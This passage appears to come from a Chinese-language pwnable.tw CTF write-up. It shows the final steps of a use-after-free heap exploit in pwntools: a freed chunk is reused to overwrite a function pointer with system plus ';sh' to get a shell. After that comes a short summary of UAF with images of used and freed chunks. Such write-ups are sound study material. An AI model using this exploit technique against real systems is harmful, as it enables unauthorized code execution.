```python
delete(2)

add(8, p32(system_addr) + ';sh\x00')
attach(io)
show(0)

io.interactive()
```

总结：

UAF

chunk

使用中的chunk

![image-20220420161405681](pwnabletw.assets/image-20220420161405681.png)

释放后的chunk

![image-20220420161434688](pwnabletw.assets/image-20220420161434688.png)

